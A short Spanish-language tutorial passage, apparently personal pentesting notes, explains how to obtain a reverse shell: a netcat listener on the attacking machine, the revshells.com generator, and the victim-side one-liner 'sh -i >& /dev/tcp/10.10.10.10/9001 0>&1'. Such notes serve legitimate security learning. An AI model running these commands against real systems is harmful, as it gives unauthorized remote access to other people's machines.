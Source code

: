 Mediante el comando

````
#PONDREMOS ESTE COMANDO EN LA MÁQUINA ATACANTE#
sudo nc -lvnp <puerto que pongamos a la escucha>
````

Posterior a esto tendremos que realizar una revershell. Para hacerla de forma sencilla y no tener que comernos demasiado la cabeza podremos utilizar la página web [reverseshell](https://www.revshells.com) .

Dentro de esta tendremos que prepararla rellenando la casilla de la izquierda:

![[1.1. Pasted image 20250626230319 1.png]]

Con la IP de la <span style="color:rgb(255, 192, 0)">MAQUINA ATACANTE  </span> y el puerto que hayamos puesto previamente a la escucha. La página genera automáticamente el comando necesario para la máquina atacante y en la parte inferior el comando que se necesitará en la máquina victima para realizar la conexión. En este caso el siguiente:

````
sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
````

Posterior a lanzarlo tendremos acceso a la máquina con el nivel del usuario que haya lanzado el comando.
